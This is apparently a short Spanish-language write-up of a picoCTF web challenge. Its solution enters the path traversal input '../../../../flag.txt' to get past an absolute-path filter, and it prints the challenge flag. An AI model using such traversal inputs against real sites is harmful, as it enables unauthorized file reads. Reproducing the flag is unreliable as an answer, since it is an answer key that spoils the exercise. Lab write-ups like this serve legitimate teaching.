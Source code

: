 ## Objetivo
Can you get the flag?Here's the [website](http://saturn.picoctf.net:55793/).We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?
## Solución
```
poner lo siguiente en el cuadro que nos aparece para poner texto: ../../../../flag.txt

picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}
```
## Notas adicionales

## Referencias